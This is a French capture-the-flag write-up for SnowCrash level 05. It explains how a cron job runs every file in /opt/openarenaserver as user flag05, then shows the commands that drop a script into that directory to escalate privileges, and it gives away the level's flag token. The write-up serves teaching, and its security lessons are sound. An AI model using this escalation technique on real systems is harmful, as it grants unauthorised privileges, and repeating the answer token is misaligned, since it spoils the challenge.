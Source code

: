 # Niveau 05 - Exploitation de Tâche Cron

## Aperçu du défi

Le niveau 05 implique la découverte et l'exploitation d'une tâche planifiée (tâche cron) qui s'exécute avec des privilèges élevés. Le défi enseigne sur :

- L'identification des messages et notifications système
- La découverte des tâches cron par l'inspection du système
- La compréhension des permissions de fichiers et l'escalade de privilèges
- L'exploitation des chemins d'exécution de scripts non sécurisés

## Reconnaissance initiale

En se connectant en tant que `level05`, vous pourriez remarquer un message système :

```
You have new mail.
```

C'est notre premier indice - il y a quelque chose d'important dans la boîte aux lettres (mail spool).

## Investigation

### Étape 1 : Vérifier le courrier

Dans les systèmes Linux, le système de messagerie est un service de messagerie simple basé sur du texte qui permet aux utilisateurs et aux processus système de communiquer. Le courrier système est souvent utilisé par :

- Les tâches cron pour rapporter des erreurs ou des sorties
- Les administrateurs système pour notifier les utilisateurs
- Les services système pour rapporter des informations critiques

Le courrier de chaque utilisateur est généralement stocké dans un fichier à `/var/mail/nom_utilisateur` ou `/var/spool/mail/nom_utilisateur`. Lorsque vous voyez un message "You have new mail", cela vaut la peine d'enquêter car il contient souvent des informations système importantes.

```bash
$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Cela révèle une tâche cron qui s'exécute toutes les 2 minutes en tant qu'utilisateur `flag05`, exécutant `/usr/sbin/openarenaserver`.

#### La planification Cron (5 premiers champs)

- Première position (`*/2`) : S'exécute toutes les 2 minutes (`*/2` signifie "toutes les 2" dans la position des minutes)
- Deuxième position (`*`) : Toutes les heures
- Troisième position (`*`) : Tous les jours du mois
- Quatrième position (`*`) : Tous les mois
- Cinquième position (`*`) : Tous les jours de la semaine

  Cela se traduit donc par : "Exécuter toutes les 2 minutes, 24h/24, 7j/7"

#### La partie commande

- `su` : Commande pour changer d'utilisateur (Switch user)
- `-c` : Option qui signifie "exécuter la commande suivante"
- `"sh /usr/sbin/openarenaserver"` : La commande à exécuter (exécute le script en utilisant `sh`)
- `-` : Fournit un environnement propre pour la nouvelle session utilisateur
- `flag05` : L'utilisateur vers lequel basculer lors de l'exécution de la commande

### Étape 2 : Examiner le script

```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

Le script :

- Utilise une boucle `for` pour itérer sur tous les fichiers dans `/opt/openarenaserver/`
- Pour chaque fichier trouvé :
  - Définit une limite de temps CPU de 5 secondes (`ulimit -t 5`)
  - Exécute le fichier avec bash en mode débogage (`bash -x`)
  - Supprime le fichier après exécution (`rm -f`)
- Le script s'exécute avec les permissions de `flag05` grâce à la tâche cron

## Analyse de la vulnérabilité

La vulnérabilité réside dans le fait que le script exécute n'importe quel fichier placé dans `/opt/openarenaserver/` avec les permissions de `flag05`.

## Stratégie d'exploitation

1. Créer un script dans le répertoire cible qui exécute `getflag`.
2. Le rendre exécutable.
3. Attendre que la tâche cron l'exécute (dans les 2 minutes).
4. Le résultat sera capturé pour une visualisation ultérieure.

## Étapes d'exploitation

### Étape 1 : Créer un script qui capture le drapeau

```bash
$ echo '#!/bin/sh' > /opt/openarenaserver/exploit.sh
$ echo 'getflag > /tmp/flag05' >> /opt/openarenaserver/exploit.sh
$ chmod +x /opt/openarenaserver/exploit.sh
```

### Étape 2 : Attendre l'exécution

Attendre jusqu'à 2 minutes que la tâche cron exécute notre script.

### Étape 3 : Récupérer la sortie capturée

```bash
$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

## Leçons de sécurité

1. **Principe du moindre privilège** : Les tâches cron devraient s'exécuter avec les privilèges minimums nécessaires.

2. **Chemins de script sécurisés** : Les scripts qui s'exécutent avec des privilèges élevés devraient être dans des emplacements sécurisés non modifiables par les utilisateurs moins privilégiés.

3. **Validation des entrées** : La boucle `for` dans le script exécute n'importe quel fichier sans validation, créant un risque de sécurité.

4. **Audits de sécurité réguliers** : Les tâches cron devraient être régulièrement auditées pour les problèmes de sécurité.

## Résumé

Ce défi démontre un vecteur commun d'escalade de privilèges via une configuration de tâche cron non sécurisée. En abusant d'un script qui exécute automatiquement des fichiers créés par l'utilisateur, nous avons pu escalader vers les privilèges de `flag05` et capturer le jeton.

Le drapeau pour le niveau 05 est : `viuaaale9huek52boumoomioc`
